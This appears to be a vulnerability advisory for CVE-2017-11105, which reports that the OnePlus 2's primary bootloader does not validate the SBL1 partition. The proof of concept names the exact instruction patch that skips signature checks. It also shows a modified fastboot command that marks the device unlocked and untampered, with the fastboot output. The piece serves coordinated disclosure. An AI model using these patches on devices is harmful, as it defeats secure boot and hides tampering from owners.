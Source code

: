 ```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-22'
    - type: 'report'
      date: '2017-06-26'
    - type: 'vendor-ack'
      date: '2017-06-30'
      arg: 'deadline extended'
    - type: 'wont-fix'
      date: '2017-07-05'
      arg:  '"About to reach the product''s lifecycle"'
    - type: 'deadline'
      date: '2017-07-06'
    - type: 'cve-request'
      date: '2017-07-07'
    - type: 'cve-assign'
      date: '2017-07-08'
    - type: 'release'
      date: '2017-08-01'
    - type: 'deadline-extension'
      date: '2017-09-24'

cve: 'CVE-2017-11105'
severity: 'critical'
alephid: ALEPH-2017026
date: '2017-08-01'
title: 'OnePlus 2 Lack of SBL1 Validation Broken Secure Boot'
product: 
     - OnePlus 2
credit: roeeh
---
```

OnePlus 2 (a 2015 Qualcomm Snapdragon 810 device) successfully boots with a tampered Secondary Bootloader (`sbl1`) partition although it is digitally-signed, hence it is not validated by its Primary Bootloader (PBL), maybe due to lenient hardware configuration.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1]</span>
     `-.<span class="nc">
       [aboot]</span>
       |`-.
       |  <span class="nc">[...]</span>
       |-<span class="nc">[tz]</span>
       |-<span class="nc">[rpm]</span>
       |-<span class="nc">[pmic]</span>
       .
       .
</code></pre>
</div>
Attackers capable of tampering with the `sbl1` partition can then disable the signature validation of the rest of the bootloader chain and other SBL-validated partitions such as TrustZone and ABOOT.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1</span>*<span class="rd">]</span>
     `-.<span class="rd">
       [aboot]</span>
       |`-.
       |  <span class="rd">[...]</span>
       |-<span class="rd">[tz]</span>
       |-<span class="rd">[rpm]</span>
       |-<span class="rd">[pmic]</span>
       .
       .

* - Modified as per our PoC
</code></pre>
</div>

Equivalent partitions of older OnePlus devices ([One](https://forums.coronalabs.com/topic/60894-phones-that-have-no-secure-boot-not-locked-bootloader/)/X) seem to have no digital signatures at all, and therefore are vulnerable as well.

## Proof-of-Concept ##

The goal of our PoC, whose results are available in our [repo](https://github.com/alephsecurity/research/tree/master/CVE-2017-11105), is to disable the signature validation (implemented by SBL) of the rest of the partitions such as TrustZone and ABOOT.

In order to find the exact routine within the `sbl1` image that does that, we first discovered the UART ports exposed on the OnePlus 2 board, by simply probing the available ones using our beloved [Logic Analyzer](https://www.salae.com/):

!["OnePlus 2 UART ports"](/assets/img/opo2uart.png)

Booting with authentic partitions results in the following debug messages through UART:
```
 B -    274561 - SBL1, Start
 B -    281728 - scatterload_region && ram_init, Start
 B -    296490 - boot_flash_init, Start
 D -        30 - boot_flash_init, Delta
 B -    297039 - boot_config_data_table_init, Start
 D -      3629 - boot_config_data_table_init, Delta
 B -    306067 - Image Load, Start
 D -     14060 - PMIC Image Loaded, Delta
 B -    320097 - sbl1_ddr_set_params, Start
 D -       579 - sbl1_ddr_set_params, Delta
 B -    326136 - pm_device_init, Start
 B -    328607 - PON REASON:PM0:0x2000000a0 PM1:0x2000000a0
 D -     37332 - pm_device_init, Delta
 [...]
 B -    763720 - Image Load, Start
 D -     36020 - APPSBL Image Loaded, Delta
 B -    799740 - sbl1_efs_handle_cookies, Start
 D -       457 - sbl1_efs_handle_cookies, End 
 B -    805383 - RPM sync cookie updated
 B -    808921 - SBL1, End 
 D -    536708 - SBL1, Delta
 Android Bootloader - UART_DM Initialized!!!
```
Booting with tampered SBL-validated partitions (e.g. `aboot`, `tz`), however, results in the following error (or similar):
```
B -    205997 - SBL1, Start
B -    213317 - scatterload_region && ram_init, Start
B -    227896 - boot_flash_init, Start
D -        30 - boot_flash_init, Delta
B -    228475 - boot_config_data_table_init, Start
D -      3599 - boot_config_data_table_init, Delta
[...]
B -   1184406 - Qsee Execution, Start
D -     80184 - Qsee Execution, Delta
B -   1436458 - Image Load, Start
D -     73871 - RPM Image Loaded, Delta
B -   1510573 - Signal PBL to Jump to RPM FW
B -   1512037 - Image Load, Start
D -      2562 - WDT Image Loaded, Delta
B -   1518107 - Image Load, Start
B -   1683996 - Error code 302e at /work/home/jenkins/14049_user_MP_HYDROGEN/MODEM/MSM8994/msm8994/boot_images/core/boot/secboot3/src/boot_elf_loader.c Line 829
```
By back-referencing the error string with IDA we can easily pinpoint the SBL function which validates the rest of the chain:

```
ROM:00000000FEC0E908 loc_FEC0E908                            ; CODE XREF: sub_FEC0E89C+1Cj
ROM:00000000FEC0E908        MOV             X0, X19
ROM:00000000FEC0E90C        BL              sub_FEC0F9A0
ROM:00000000FEC0E910        CBZ             W0, loc_FEC0E934
ROM:00000000FEC0E914        ADRP            X0, #off_FEC7FE28@PAGE
ROM:00000000FEC0E918        LDR             X3, [X0,#off_FEC7FE28@PAGEOFF]
ROM:00000000FEC0E91C        ADRP            X0, #(aSignalPblToJum+0x16) ; -
ROM:00000000FEC0E920        ADD             X0, X0, #aWorkHomeJen_19@PAGEOFF ; "/work/home/jenkins/14049_M_OOS_user_MP2"...
ROM:00000000FEC0E924        MOV             W1, #0x33D
ROM:00000000FEC0E928        MOV             W2, #0x302E
ROM:00000000FEC0E92C        BLR             X3
ROM:00000000FEC0E930
ROM:00000000FEC0E930 loc_FEC0E930
ROM:00000000FEC0E930        B               loc_FEC0E930
ROM:00000000FEC0E934
ROM:00000000FEC0E934 loc_FEC0E934                            ; CODE XREF: sub_FEC0E89C+74j
ROM:00000000FEC0E934        LDR             X19, [SP,#0x30+var_28]
ROM:00000000FEC0E938        LDP             X20, X21, [SP,#0x30+var_20]
ROM:00000000FEC0E93C        LDP             X22, X30, [SP,#0x30+var_10]
ROM:00000000FEC0E940        ADD             SP, SP, #0x30
ROM:00000000FEC0E944        RET
ROM:00000000FEC0E944 ; End of function sub_FEC0E89C
```

Notice the spin-lock @ `0xFEC0E930`. Quick patching of the call @ `0xFEC0E90C` with `MOVZ W0, #0` will avoid the failing path. 
And indeed, booting with tampered `aboot` and `tz` now succeeds:

```
B -    276757 - SBL1, Start
[...]
D -      7564 - QHEE Image Loaded, Delta
B -    760548 - Image Load, Start
D -     31690 - QSEE Image Loaded, Delta
[...]
D -     36021 - APPSBL Image Loaded, Delta
B -   1102178 - sbl1_efs_handle_cookies, Start
D -       457 - sbl1_efs_handle_cookies, End
B -   1107790 - RPM sync cookie updated
B -   1111420 - SBL1, End
D -    836920 - SBL1, Delta
Android Bootloader - UART_DM Initialized!!!
[50] project name got 14049
[...]
[1130] lk fg_volt = 4038
[1130] Backlight 1
[1670] WARM: power_on_reason  is HARD_RESET [0x21]
[1680] WARM: power_on_reason  is PON1 [0x21]
[1680] WARM: power_off_reason  is KPDPWR_N [0x80]
[1850] Channel alloc freed
[1870] Jumping to kernel via monitor
```

To prove we can execute code within `aboot`, we have also modified one of the fastboot oem commands, made it temporarily unlock the bootloader, and turn off the device tampering flag:
```c
int __fastcall cowabunga_F92C60C(int a1, int a2)
{
[...]
  dword_F978FA4 = 1;    // unlocked
  dword_F978FA8 = 0;    // tampered
  FAIL("pizza",);
[...]
}
```
The result is as follows:
```terminal
$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: true
(bootloader)    Device unlocked: false
(bootloader)    Device is_verified: false

$ fastboot oem cowabunga
...
FAILED (remote: pizza)
finished. total time: 0.020s

$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: false
(bootloader)    Device unlocked: true
(bootloader)    Device is_verified: false
```
